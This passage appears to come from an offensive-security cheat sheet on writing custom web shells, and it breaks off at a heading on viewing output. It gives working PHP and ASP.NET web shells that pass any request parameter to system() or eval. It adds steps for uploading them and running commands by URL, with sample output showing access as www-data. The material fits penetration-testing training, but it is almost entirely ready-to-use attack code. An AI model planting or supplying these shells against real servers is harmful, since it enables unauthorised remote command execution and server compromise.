 
## Writing Custom Web Shell

> **✍️ Manual Creation:** Building simple but effective web shells when online tools aren't available

### PHP Web Shell

**Basic PHP Web Shell:**
```php
<?php system($_REQUEST['cmd']); ?>
```

**Usage:**
```bash
# Save as shell.php and upload
# Execute commands via: http://SERVER_IP:PORT/uploads/shell.php?cmd=id
```

**Example execution:**
```bash
# URL: http://SERVER_IP:PORT/uploads/shell.php?cmd=id
# Output: uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Enhanced PHP Web Shell

**Improved version with better formatting:**
```php
<?php 
if(isset($_REQUEST['cmd'])){ 
    echo "<pre>";
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
    echo "</pre>";
    die;
}
?>
```

### ASP.NET Web Shell

**Basic .NET Web Shell:**
```asp
<% eval request('cmd') %>
```

**Usage:**
```bash
# Save as shell.aspx and upload
# Execute commands via: http://SERVER_IP:PORT/uploads/shell.aspx?cmd=whoami
```

### Viewing Output in Browser
